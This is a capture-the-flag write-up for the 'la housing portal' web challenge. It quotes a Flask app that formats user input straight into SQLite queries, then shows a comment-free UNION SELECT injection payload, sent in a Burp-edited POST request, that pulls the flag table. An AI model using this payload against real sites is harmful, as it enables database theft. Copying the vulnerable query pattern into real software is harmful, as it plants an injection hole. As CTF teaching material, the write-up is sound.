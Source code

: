# la housing portal

Challenge description:

![chall](assets/chall.png)

If you click on the link, you will the the page, with its functionalities:

![website](assets/website.gif)

It seems the site is doing a query request to the server, lets look at the source code provided on the chall

```python

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()
    print(data)
    if len(data) > 6:
        return "Invalid form data", 422

    for k, v in list(data.items()):
        if v == "na":
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")

    name = data.pop("name")

    roommates = get_matching_roommates(data)
    return render_template("results.html", users=roommates, name=name)
```

This is the code that handles the request when you click the submit, you can see that they do not allow characters that are comments for SQL

The code that handles the SQL query:

```python

def get_matching_roommates(prefs: dict[str, str]):
    print(prefs)
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect("file:data.sqlite?mode=ro", uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

So it seems that every parameter on the site is being added as `PARAMETER = 'INPUT'`, so when you put the name `Lordza` it will be `name = 'LORDZA'`, this means that if you finish the input with `'` you can probably do a SQL injection, the problem is that you can't use comments, and the place where the code is inserting the user input is before a `LIMIT 25` and after a `WHERE`, this means you can't use `JOIN`, and you need to use the last parameter to make the injection to actually work

When you open on burpsuite, you can see the following requests:

![alt text](assets/burprequests.png)

Let's take a closer look at the submit request:

```http
POST /submit HTTP/2
Host: la-housing.chall.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://la-housing.chall.lac.tf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://la-housing.chall.lac.tf
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

name=asdasd&guests=na&neatness=na&sleep=na&awake=na
```

In the source code, you can see that you don't need all the parameters, and the name is taken off from the list, so you need to inject in another parameter.

We used the intercept on the burpsuite to edit the request.
And encoded the query to url using the `Ctrl+u` when selected the query

The SQL code was inserted after this, which was this one: `' UNION SELECT *,*,*,*,*,* FROM flag WHERE ''='`

In our case, we used the parameter guests and erased all the others, so the query was something like this:

```http
name=asdasd&guests='+UNION+SELECT+*,*,*,*,*,*+FROM+flag+WHERE+''%3d'
```

Then we got the flag printed in all the columns of the site:

![flag](assets/flag.png)

`lactf{us3_s4n1t1z3d_1npu7!!!}`
